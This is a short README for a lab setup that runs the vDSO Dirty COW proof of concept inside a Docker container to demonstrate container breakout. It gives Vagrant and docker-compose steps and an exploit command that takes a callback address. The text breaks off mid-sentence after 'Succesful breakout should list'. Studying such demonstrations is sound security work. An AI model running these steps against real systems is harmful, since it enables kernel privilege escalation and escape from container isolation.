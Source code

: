 # dirtycow-docker-vdso_2

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.
This exploit is from  https://github.com/gebl/dirtycow-docker-vdso.git'}

This exploit is similar that dirtycow-docker-vdso_1 with exception no seperate user is created 

To execute:
``	vagrant up
``
``	vagrant putty
``

Once inside the VM run to launch the Docker Container:
``
	sudo docker-compose run dirtycow /bin/bash" 
``

Inside the Docker container run:
``
    cd /dirtycow-vdso
     make
     ./0xdeadbeef 172.18.0.2:1234" 
``      

Wait a few minutes for the exploit to launch 

Show the breakout of the container by running 

``
ifconfig
``	

Succesful breakout should list

	
  
